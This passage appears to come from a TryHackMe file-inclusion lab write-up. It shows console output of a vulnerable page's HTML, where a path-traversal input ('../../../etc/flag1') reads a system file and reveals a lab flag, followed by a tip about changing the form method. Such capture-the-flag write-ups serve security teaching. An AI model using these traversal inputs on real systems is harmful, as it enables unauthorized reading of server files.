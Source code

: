 ```console
            <input name='file' type="text" class="form-control" placeholder="For example: welcome.php" aria-label="For example: welcome.php" aria-describedby="basic-addon2">
            <div class="input-group-append">
              <button class="btn btn-success" type="submit" >Include</button>
            </div>
          </div>
        </form>

        <div class='mt-5 mb-5'>
          <h5>Current Path</h5>
          <div class='file-Location'><code>/var/www/html</code></div>
        </div>
        <div>
          <h5>File Content Preview of <b>../../../etc/flag1</b></h5>
	  <code>F1x3d-iNpu7-f0rrn
</code>
    </div>  </body>
</html>
root@ip-10-10-142-182:~#
```
{: .nolineno }

Or change the form method on the page :

![Challenge 1](/images/thm/fileinc/fileinc_8.png)
_Challenge 1_
